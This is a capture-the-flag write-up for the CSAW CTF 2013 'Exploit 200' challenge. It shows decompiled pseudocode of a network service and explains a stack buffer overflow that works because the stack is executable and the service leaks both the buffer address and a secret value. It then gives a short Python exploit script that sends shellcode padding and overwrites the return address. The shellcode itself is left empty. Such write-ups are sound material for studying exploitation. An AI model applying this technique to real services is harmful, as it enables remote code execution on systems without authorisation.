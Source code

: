 ```yaml
---
layout: post
title:  "CSAW CTF 2013 - Exploit 200"
---
```


Source were not provided, but with IDA and Hex-Ray we can get the following pseudocode:
```
int __cdecl handle(int fd)
{
  int result; // eax@1
  unsigned int v2; // eax@1
  char buf; // [sp+1Ch] [bp-80Ch]@1
  char v4; // [sp+81Bh] [bp-Dh]@1
  int v5; // [sp+81Ch] [bp-Ch]@1

  v5 = 0;
  memset(&buf, 0, 0x800u);
  v2 = time(0);
  srand(v2);
  secret = rand();
  v5 = secret;
  *(_DWORD *)&buf = &buf;
  send(fd, &buf, 4u, 0);
  send(fd, &v5, 4u, 0);
  send(
    fd,
    "Welcome to CSAW CTF.  Exploitation 2 will be a little harder this year.  Insert your exploit here:",
    0x63u,
    0);
  recv(fd, &buf, 0x1000u, 0);
  v4 = 0;
  result = secret;
  if ( v5 != secret )
  {
    close(fd);
    exit(0);
  }
  return result;
}
```

First thing to note is that `recv` read `0x1000` bytes of data into a buffer of `0x800`. We can use this to rewrite stack data. The overflow is big enough to rewrite the return address.

By running `readelf -l exploit2` we get `GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4`, so the stack is executable (E flag in RWE).

All we need to do is to send our favorite shellcode and rewrite the return adresse to jump on our shellcode at the buffer location. The buffer location is sent by the application (`send(fd, &buf, 4u, 0);`).

The last thing to note is the `secret` variable. It is use to hold a random number and its value is copied into `v5`. If the value of `v5` changed after we send our payload, the program exit. Therefor, we need to keep the same value when we rewrite the stack since `v5` is before the buffer. Luckily, the secret value is sent before `recv`, so we can write it in our payload.

Our final exploit code was the following:

```
shellcode = ''
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('128.238.66.212', 31338))

buf_size = 0x800
buf_addr = s.recv(4)
secret = s.recv(4)
s.recv(1024)

payload = shellcode + '\x90' * (buf_size-len(shellcode)) + secret + '\x90' * 12 + buf_addr

s.send(payload)
```

